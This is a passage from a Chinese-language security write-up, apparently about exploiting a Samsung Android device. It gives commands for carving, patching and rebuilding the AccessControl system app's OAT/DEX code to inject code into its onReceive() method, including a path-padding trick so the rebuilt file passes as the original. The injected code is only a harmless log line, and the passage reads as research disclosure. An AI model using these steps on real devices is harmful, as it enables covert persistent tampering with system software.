 我们获得了ART ELF (OAT)文件，但是我们需要修改它的dalvik字节码，我们可以通过oat2dex utility[[8]](https://github.com/jakev/oat2dex-python/)来产生相应的dalvik字节码：

```
> python oat2dex.py /tmp/art/AccessControl.odex
Processing '/tmp/art/AccessControl.odex'
Found DEX signature at offset 0x2004
Got DEX size: 0xe944
Carving to: '/tmp/art/AccessControl.odex.0x2004.dex'
> file *
[...]
AccessControl.odex.0x2004.dex: Dalvik dex file version 035
[...]
> baksmali AccessControl.odex.0x2004.dex -o smali

```

然后我们对AccessControlReceiver进行补丁，以增加我们的代码到它的 onReceive()方法里：

```
> find smali/ -iname '*receiver*'
smali/com/samsung/android/app/accesscontrol/AccessControlReceiver.smali
> vim smali/com/samsung/android/app/accesscontrol/AccessControlReceiver.smali
[...]
.method public onReceive(Landroid/content/Context;Landroid/content/Intent;)V
  .registers 10 

+  # adding the following code:
+  const-string v0, "sh4ka"
+  const-string v1, "boom!"
+  invoke-static {v0, v1}, Landroid/util/Log;->wtf(Ljava/lang/String;Ljava/lang/String;)I
[...]
> smali smali/ -o classes.dex

```

通过我们修改过的DEX来重建ART ELF file (OAT)文件，我们需要用dex2oat命令[[9]](https://www.blackhat.com/docs/asia-15/materials/asia-15-Sabanal-Hiding-Behind-ART.pdf)行来进行：

```
> adb pull /system/app/AccessControl/AccessControl.apk .
1462 KB/s (259095 bytes in 0.173s)
> sudo chattr +i AccessControl.apk
> cp AccessControl.apk Modded.apk
> zip -q Modded.apk classes.dex
> python -c 'print len("/system/app/AccessControl/AccessControl.apk")'
43
> python -c 'print 43-len("/data/local/tmp/Modded.apk")'
17
> mv Modded.apk Modded$(python -c 'print "1"*17').apk
> ls
AccessControl.apk  AccessControl.odex  AccessControl.odex.0x2004.dex  AccessControl.odex.art  classes.dex  Modded11111111111111111.apk  smali
> adb push Modded11111111111111111.apk /data/local/tmp
1144 KB/s (284328 bytes in 0.242s)
> adb shell dex2oat --dex-file=/data/local/tmp/Modded11111111111111111.apk --oat-file=/data/local/tmp/modified.oat
> adb pull /data/local/tmp/modified.oat .
1208 KB/s (172464 bytes in 0.139s)
> file modified.oat
modified.oat: ELF 32-bit LSB  shared object, ARM, EABI5 version 1 (GNU/Linux), dynamically linked, stripped
> sed -i 's/\/data\/local\/tmp\/Modded11111111111111111.apk/\/system\/app\/AccessControl\/AccessControl.apk/g;' modified.oat

```

